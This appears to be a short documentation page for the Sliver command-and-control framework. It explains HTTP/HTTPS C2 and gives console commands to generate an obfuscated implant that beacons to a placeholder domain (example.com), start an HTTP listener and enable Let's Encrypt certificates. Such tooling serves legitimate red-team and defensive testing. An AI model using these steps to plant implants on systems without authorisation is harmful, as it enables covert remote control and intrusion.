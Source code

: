 Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous.

## Generate the Sliver (implant)
Sliver implants are compiled with a hardcoded (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at example.com, run the following:

```
sliver > generate --http example.com

```

## Start the Listener 

```
sliver > http

```

## Static Content

You can manage static content using the `website` command.

## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > http --domain example.com --lets-encrypt

```
